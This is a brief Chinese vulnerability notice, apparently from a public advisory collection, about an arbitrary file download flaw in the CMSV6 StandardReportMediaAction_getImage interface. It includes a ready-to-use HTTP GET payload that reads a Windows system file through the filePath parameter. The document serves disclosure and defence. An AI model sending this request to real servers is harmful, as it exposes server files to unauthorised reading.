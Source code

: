 **漏洞描述：**

通天星CMSV6接口StandardReportMediaAction_getImage存在任意文件下载，攻击者可以利用接口下载服务器数据文件。

**影响版本：**

通天星CMSV6

**Payload：**

```
GET /808gps/StandardReportMediaAction_getImage.action?filePath=C://Windows//win.ini&fileOffset=1&fileSize=100 HTTP/1.1
Host: 192.168.52.130
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
```

---
